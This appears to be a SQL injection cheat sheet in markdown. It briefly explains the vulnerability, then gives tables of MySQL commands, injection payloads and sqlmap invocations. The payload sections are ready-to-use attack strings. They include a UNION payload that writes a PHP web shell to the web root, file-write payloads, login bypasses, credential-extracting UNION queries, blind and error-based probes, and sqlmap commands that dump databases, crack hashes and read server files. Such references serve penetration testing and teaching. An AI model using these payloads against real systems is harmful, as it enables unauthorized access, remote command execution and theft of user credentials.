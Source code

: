 ```yaml
---
legal-banner: true
---
```


### **Introduction**

SQL injection is a vulnerability that occurs when an attacker inserts or "injects" malicious SQL code into a database query. This is typically done through user input areas like forms or URLs that are not properly secured. By manipulating the SQL statements, the attacker can gain unauthorized access to the database, allowing them to view, modify, or delete data. This type of attack exploits inadequate input validation and can lead to significant data breaches.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Application
    participant C as Database

    A->>B: 1. Sends SQL Injection Payload
    Note over B,C: The web app fails to sanitize input
    B->>C: 2. Constructs and sends SQL query with payload
    C-->>B: 3. Executes malicious SQL query
    Note over C,B: Database processes the injection
    C-->>B: 4. Returns query result
    B-->>A: 5. Sends response with data to Attacker
```

### **General MySQL Commands**

These commands enable interactions with a MySQL database, including connection setup, navigation, and basic data operations.

| Command | Description |
| --- | --- |
| `mysql -u root -h [TARGET_IP_ADDRESS] -P 3306 -p` | Connects to a MySQL database as the `root` user at a specified host and port. |
| `SHOW DATABASES;` | Lists all databases on the MySQL server for database selection. |
| `USE users;` | Selects the 'users' database for current operations. |
| `SHOW TABLES;` | Displays tables in the active database to outline the data structure. |
| `DESCRIBE logins;` | Shows structure and properties of the 'logins' table, including column data types. |

### **Table and Data Manipulation**

This section focuses on the creation, modification, and population of database tables.

| Command | Description |
| --- | --- |
| `CREATE TABLE logins (id INT, ...);` | Creates a 'logins' table with defined columns and data types. |
| `INSERT INTO table_name VALUES (value_1, ...);` | Adds a new row with values in the defined order to a table. |
| `INSERT INTO table_name (column2, ...) VALUES (column2_value, ...);` | Inserts data into specific columns of a table. |
| `UPDATE table_name SET column1=newvalue1, ... WHERE condition;` | Updates records in a table based on a given condition. |

### **SQL Injection Techniques and Payloads**

A clear and concise overview of SQL injection methods from simple attacks to complex exploitations using tools like sqlmap.

| Technique | Payload | Description |
| --- | --- | --- |
| Basic Union Attack | `' UNION SELECT 1,2,3,4 -- -` | Demonstrates a simple SQL injection with a UNION SELECT. |
| Write File | `cn' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/proof.txt'-- -` | Writes data to a file on the server, showing file system access. |
| PHP Web Shell | `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -` | Creates a web shell for command execution via PHP code. |
| sqlmap Data Dump | `sqlmap -r request.txt --batch --dump` | Automates SQL injection to dump database contents with sqlmap. |
| Targeted sqlmap Scan | `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"` | Targets specific details with sqlmap for sensitive data retrieval. |
| Form Injection Test | `sqlmap -o -u "http://[DOMAIN-NAME]/form/" –forms` | Tests form parameters for SQL injection vulnerabilities using sqlmap. |
| Database & Table Data Dump | `sqlmap -o -u "http://[DOMAIN-NAME]/vuln-form" --forms -D database-name -T users –dump` | Extracts and cracks hashes from specified database tables. |
| Session Flush | `sqlmap --flush session` | Resets sqlmap's session data to clear the testing environment. |
| Boolean Exploitation | `sqlmap -p user --technique=B` | Uses boolean techniques for SQL injection exploitation. |
| Crawl and Scan | `sqlmap -u http://[DOMAIN-NAME] --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3` | Performs a comprehensive crawl and test for SQL injection on a website. |

### **SQL INJECTION Bypass Payloads**

Different SQL injection payloads designed to manipulate or bypass login page.

| Technique | Payload | Description |
| --- | --- | --- |
| Basic Authentication Bypass | `' OR '1'='1` | Bypasses authentication by always returning true. |
| Extended Rights | `' OR '1'='1'--` | Ends the query prematurely to succeed the authentication check. |
| Admin Access | `' OR '1'='1' AND userType='admin` | Attempts to escalate privileges by setting userType to 'admin'. |
| Time-Based Blind SQLi | `admin' AND (SELECT * FROM Users WHERE username='admin' AND SLEEP(10))--` | Infers valid usernames by delaying the response when true. |
| Union-Based Credential Extraction | `' UNION SELECT username, password FROM users--` | Extracts user credentials directly from the database. |
| Error-Based SQLi | `' OR 1=1; RAISERROR ('Login Error', 10, 1);--` | Disrupts normal error handling to disclose information. |
| Commenting Out Remaining SQL | `' OR '1'='1' /*` | Neutralizes the rest of the SQL command for effective manipulation. |
| Complex Payload with Encoding | `' OR ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116 --` | Derives schema details through boolean responses or error messages. |

### **Output Formatting for Analysis**

Methods for optimizing data retrieval and presentation for clearer analysis and reporting.

| Command | Description |
| --- | --- |
| `SELECT * FROM table_name WHERE condition;` | Displays rows matching a specific condition, showing all columns. |
| `SELECT column1, column2 FROM table_name;` | Displays only selected columns, streamlining the output. |
| `SELECT * FROM logins ORDER BY column_1 DESC;` | Orders 'logins' table data by 'column_1' in descending order. |
| `SELECT * FROM logins LIMIT 2 OFFSET 1;` | Shows a subset of records, skipping the first and displaying the next two. |